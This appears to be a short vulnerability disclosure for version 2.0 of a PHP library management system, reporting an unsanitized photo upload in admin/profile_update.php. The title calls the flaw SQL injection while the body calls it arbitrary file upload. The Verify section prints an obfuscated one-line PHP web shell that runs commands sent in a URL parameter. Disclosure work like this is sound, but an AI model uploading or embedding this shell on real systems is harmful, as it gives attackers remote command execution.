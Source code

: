 **Title:** Library Management System In PHP With Source Code (Ver.2.0) admin\profile_update.php sql Injection 

**Vendor:** Fabian Ros [Library Management System In PHP With Source Code (Ver.2.0) - Source Code & Projects](https://code-projects.org/library-management-system-in-php-with-source-code-ver-2-0/)

**Affected Product Version**: 2.0

**Vulnerability Type**: Arbitrary file upload

**Audit:**

photo is uploaded without sanitizing 

![image-20250702161013471](./images/image-20250702161013471.png)

**Verify**

Payload: 

```php 
<?php $a = 'sys'.'tem'; $a($_GET['pas']); ?>
```



successfully uploaded

![image-20250702161439980](./images/image-20250702161439980.png)

![image-20250702161855982](./images/image-20250702161855982.png)